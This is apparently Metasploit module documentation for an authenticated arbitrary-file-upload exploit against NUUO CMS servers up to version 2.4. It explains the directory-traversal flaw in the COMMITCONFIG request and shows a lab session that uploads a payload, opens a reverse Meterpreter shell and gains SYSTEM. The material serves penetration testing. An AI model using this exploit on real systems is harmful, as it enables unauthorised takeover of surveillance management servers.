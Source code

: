 ## Vulnerable Application

Nuuo CMS Authenticated Arbitrary File Upload

The COMMITCONFIG verb is used by a CMS client to upload and modify the configuration of the CMS Server. An example is below:

```
COMMITCONFIG NUCM/1.0
User-Session-No: <session-number>
Filename: <filename>
FileType: <number>
Content-Lenght: <file-length>

<FILE_DATA>
```

The vulnerability is in the "FileName" parameter, which accepts directory traversal (..\\..\\) characters. Therefore, this function can be abused to overwrite any files in the installation drive of CMS Server.

This vulnerability is exploitable in CMS versions up to and including v2.4.

This module will either use a provided session number (which can be guessed with an auxiliary module) or attempt to login using a provided username and password - it will also try the default credentials if nothing is provided.

[NUUO Central Management Server (CMS): all versions below 2.5](http://d1.nuuo.com/NUUO/CMS/)

 - 1.5.2 OK
 - 2.1.0 OK
 - 2.3.2 OK
 - 2.4.0 OK
 - 2.6.0 FAIL (vuln fixed?)
 - 2.9.0 FAIL
 - 2.10.0 FAIL

## Scenarios

### Testing on Windows 10 Pro x64 running NCS Server 2.4.0

```
msf exploit(windows/nuuo/nuuo_cms_fu) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf exploit(windows/nuuo/nuuo_cms_fu) > set verbose true
verbose => true
msf exploit(windows/nuuo/nuuo_cms_fu) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] 172.22.222.200:5180 - Backing up LicenseTool.dll to TQzixBdpOiRG
[*] 172.22.222.200:5180 - Uploading payload...
[*] 172.22.222.200:5180 - Sleeping 15 seconds...
[*] 172.22.222.200:5180 - Sending SENDLICFILE request, shell incoming!
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 3 opened (172.22.222.136:4444 -> 172.22.222.200:49674) at 2019-02-19 05:46:51 -0600

meterpreter > 
[!] 172.22.222.200:5180 - Please wait a bit while we clean up
[+] 172.22.222.200:5180 - Successfully restored LicenseTool.dll!
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
[+] 172.22.222.200:5180 - We should have SYSTEM now, enjoy your shell!

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```
